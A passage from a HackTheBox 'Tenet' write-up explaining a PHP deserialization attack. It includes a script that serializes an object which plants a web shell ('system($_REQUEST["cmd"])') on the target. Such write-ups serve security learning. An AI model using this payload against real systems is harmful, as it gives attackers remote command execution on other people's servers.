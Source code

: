 <p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenet/9.png">
</p>

## Shell as www-data

# PHP Deserialization Attack

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/tenet/web10.png">
</p>

- Well as such they are letting us control our `input` which is processed by **GET** and as such is not applying sanitization and as such is employing the `arepo` parameter we are going to create a serealized data.

- We are going to create a **script in php** to give us the `serialized` data since by means of the `cmd` parameter we are going to execute commands.

```bash
❯ catn serialize.php
<?php
class DatabaseExport
{
        public $user_file = 'xd.php';
        public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwned = new DatabaseExport;
echo serialize($pwned);
?>
```
